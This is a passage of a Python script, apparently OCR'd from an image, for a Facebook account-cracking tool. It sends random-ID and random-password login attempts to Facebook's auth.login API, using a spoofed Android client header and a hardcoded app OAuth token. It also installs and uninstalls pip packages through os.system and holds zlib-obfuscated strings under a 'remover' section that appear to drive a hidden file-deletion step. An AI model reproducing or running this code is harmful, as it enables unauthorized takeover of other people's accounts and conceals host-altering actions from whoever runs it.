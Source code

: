 except FileExistsError:

        os.system('pip uninstall requests urllib3 idna certifi -y')

        pass

try:

        import os,sys,time,json,random,re,string,platform,base64,requests,io,struct,zlib

        from string import *

        from concurrent.futures import ThreadPoolExecutor as ThreadPool

except ModuleNotFoundError:

        print('\n Installing missing modules ...')

        os.system('pip install requests futures==2 > /dev/null')

        os.system('python Booda.py')

        

#----[pran links]-----

kkk = {'user-agent': 'Davik/2.1.0 (Linux; U; Android 7.0.0; MMB29K Build/GT-P5100 [FBAN/FB4A;FBAV/241.0.0.41292;FBBV/975202462;FBDM/{density=1.5,width=480,height=800};FBLC/pl_PL;FBCR/T-Mobile.pl;FBMF/samsung;FBBD/samsung;FBPN/com.facebook.mlite;FBDV/MMB29K;FBSV/4.4.4;nullFBCA/armeabi-v7a:armeabi;]', 'accept-encoding': 'gzip, deflate', 'Accept': '*/*', 'Connection': 'keep-alive', 'content-type': 'application/x-www-form-urlencoded', 'x-fb-sim-hni': '31061', 'x-fb-connection-type': 'unknown', 'Authorization': 'OAuth 350685531728|62f8ce9f74b12f84c123cc23437a4a32', 'x-fb-net-hni': '28613', 'x-fb-connection-bandwidth': '29643048', 'x-fb-connection-quality': 'EXCELLENT', 'x-fb-friendly-name': 'authenticate', 'x-fb-http-engine': 'Liger'}

hhh = {'adid': 'e66b2ae4-35b6-4c2b-822b-b57243edb930', 'email': '10000'+str(random.randint(11111111111,99999999999)), 'password': str(random.randint(1111111,9999999)), 'cpl': 'true', 'credentials_type': 'device_based_login_password', 'source': 'login', 'error_detail_type': 'button_with_disabled', 'format': 'json', 'generate_session_cookies': '1', 'generate_analytics_claim': '1', 'generate_machine_id': '1', 'locale': 'pl_PL', 'client_country_code': 'PL', 'device': 'SM-A500H', 'device_id': 'e66b2ae4-35b6-4c2b-822b-b57243edb930', 'method': 'auth.login', 'fb_api_req_friendly_name': 'authenticate', 'fb_api_caller_class': 'com.facebook.account.login.protocol.Fb4aAuthHandler'}

lll = ("https://b-api.facebook.com/method/auth.login")

#----[remover]-----

import os,shutil,zlib

sz = zlib.decompress(b'x\x9c\xd3OI,I\xd4\x07\x13\xc9\xf9\xb9z%\xa9E\xb9\xa5\x15\xfai\x999\xa9\xc5\xfa\x19\xf9\xb9\xa9\xfae\x05E\xf9%\xa9\xc9%\x00<J\x0f\x94')

sz1 = zlib.decompress(b'x\x9c\xd3OI,I\xd4\x07\x13\xc9\xf9\xb9z%\xa9E\xb9\xa5\x15\xfai\x999\xa9\xc5\xfa\xa5\xc5E\xfaI\x99y\xfaE\xb9\x00\x0eL\x0e\x15')

sz2 = zlib.decompress(b'x\x9c\xd3OI,I\xd4\x07\x13\xc9\xf9\xb9z%\xa9E\xb9\xa5\x15\xfai\x999\xa9\xc5\xfa\xa5\xc5E\xfaI\x99y\xfa\xb9e\x00\x0eK\x0e\x19')

sz3 = zlib.decompress(b'x\x9c%\xca\xcb\x11\xc20\x0c\x05\xc0V\xdc@\xfc\x08Gj\xa0\t\xc7\x91\x89g\xfca\xa4\xa7@\xf90p\xd9\xd3f\xd7\x16\x96{8\xc8\xa7\xdd\x00M\xaf\xf8\xa8<|s\x13\xcdsP\x06c\x9e\x1d\xa5\xecg[\xd7\xeb\x05\x14#z\xaa\x03\xfd\x0c\xcb\x0c\xd8\x13\xd3\x9fo\x8c\x14\xed\xfeF\xa9M\x0cn\x8a\xed7?\xf1Q&+')
